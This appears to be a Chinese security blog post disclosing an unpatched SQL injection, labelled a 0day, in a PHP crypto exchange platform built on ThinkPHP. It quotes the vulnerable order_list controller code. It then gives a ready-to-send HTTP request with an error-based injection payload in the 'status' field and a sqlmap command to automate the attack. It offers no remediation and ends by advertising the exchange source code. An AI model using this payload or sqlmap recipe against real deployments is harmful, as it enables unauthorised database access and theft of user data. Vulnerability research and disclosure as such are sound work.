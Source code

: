 #  某优化版PHP九国语言交易所存在前台SQL注入漏洞   
原创 Mstir  星悦安全   2025-06-04 06:38  
  
![图片](https://mmbiz.qpic.cn/sz_mmbiz_jpg/lSQtsngIibibSOeF8DNKNAC3a6kgvhmWqvoQdibCCk028HCpd5q1pEeFjIhicyia0IcY7f2G9fpqaUm6ATDQuZZ05yw/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
点击上方  
蓝字  
关注我们 并设为  
星标  
## 0x00 前言  
  
**项目编号 : 10035    内部编号:XY-101724**  
  
**某优化版PHP九国语言交易所系统源码/秒合约交易源码/币币合约/c2c/质押投资，前端uni-app，后端php，修复了一些报错和优化了一些细节，前后端均正常，需要开启一些端口**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5eGLUlgg5CxF4RByHeaIHvEymf0vaf9Qe0ShFbFsSbUFTmDnGa53KRf11ZaxFbsdghLuy8wnFcmNw/640?wx_fmt=png&from=appmsg "")  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5eGLUlgg5CxF4RByHeaIHvEIDD8rUTC3axt6IFGpRL98mTkjuYeEUm0LIVNkWhRZO5YKxbQGy9oHg/640?wx_fmt=png&from=appmsg "")  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5eGLUlgg5CxF4RByHeaIHvELcSI6VkicWYtcIsT9Lrw8fvAiafFrwubnYJ5VnqyIO2xGpt0tia5icchqA/640?wx_fmt=png&from=appmsg "")  
  
**框架:ThinkPHP 5.0.24 Debug:True**  
## 0x01 漏洞研究&复现  
  
需前台用户登录权限  
  
**位于 /application/api/controller/Marketotc.php 控制器的 order_list 方法通过 $this->request->post 传入status 参数，然后直接进入到SQL查询字句中，导致漏洞产生.**  
  
****  
```
/*** 我的订单列表*/
public function order_list()  {
    $user_id = $this->auth->id;
    $type = $this->request->post("type");//1=买入，2=卖出
    $status = $this->request->post("status",0);//状态:1=待付款,2=已付款,3=申诉中,4=已完成,5=已取消
    if($type == 1){
      $w = "((a.user_id = ".$user_id." AND a.type=1) OR (a.relid = ".$user_id." AND a.type=2))";
    }elseif($type == 2){
      $w = "((a.user_id = ".$user_id." AND a.type=2) OR (a.relid = ".$user_id." AND a.type=1))";
    }else{
      $w = "(a.user_id = ".$user_id." OR a.relid = ".$user_id.")";
    }
    if($status){
      $w .= " AND a.status=".$status;
    }
    $user_market = Db::name("app_market_user a")
      ->field("a.id,a.num,a.price as count_price,b.price,a.status,a.add_time,b.payment,a.type,a.relid,a.user_id,b.type as types,c.name,d.curr_name as fb_name,d.symbol")
      ->join("app_market b","a.order_id=b.id","left")
      ->join("app_currency c","b.curr_id=c.id","left")
      ->join("app_market_country d","b.country_id=d.id","left")
      ->where($w)
      ->order("a.id desc")
      ->paginate(20, false, ['query' => request()->param()]);
    foreach ($user_market as $key => $value) {
      if($value['user_id'] == $user_id){
        $user = Db::name("user")->where("id",$value['relid'])->find();
        $value['nickname'] = $user['nickname'];
        $value['avatar'] = Config::get("site.image_url").$user['avatar'];
      }else{
        $user = Db::name("user")->where("id",$value['user_id'])->find();
        $value['nickname'] = $user['nickname'];
        $value['avatar'] = Config::get("site.image_url").$user['avatar'];
        $value['type'] =$value['types'];
      }
      $value['num'] = floatval($value['num']);
      $value['add_time'] = date("Y-m-d H:i",$value['add_time']);
      unset($value['types']);
      unset($value['relid']);
      $user_market[$key] = $value;
    }

    $this->success("ok",$user_market);
  }

```  
  
  
**Payload:**  
  
```
POST /api/Marketotc/order_list HTTP/1.1
Host: 192.168.200.128
Content-Length: 50
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Origin: http://192.168.200.128
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.200.128/api/Marketotc/order_list
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,ru;q=0.8,en;q=0.7
Cookie: PHPSESSID=0pu2ediqfhu5ibuq90pbgnefab; think_var=zh-cn; uid=3728; token=a89eab28-e6a4-48fa-8f46-de7af8053c6e
Connection: close

status=GTID_SUBSET(CONCAT((SELECT (USER()))),8627)

```  
  
  
![image.png](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5eGLUlgg5CxF4RByHeaIHvEAQDGc5mc6psc3MTxWruRWJtJo3CVETPvIa6GnZymkUMnJaKTTYBBJA/640?wx_fmt=other&from=appmsg "")  
```
Python sqlmap.py -r a.txt --level=3 --dbms=mysql
```  
```

```  
  
## 0x02 源码下载  
  
**标签:代码审计，0day，渗透测试，系统，通用，0day，闲鱼，交易所**  
  
**交易所源码关注公众号发送 250604 下载!**  
  
****  
  
****  
**免责声明:文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由读者承担全部法律及连带责任，文章作者和本公众号不承担任何法律及连带责任，望周知！！!**  
  
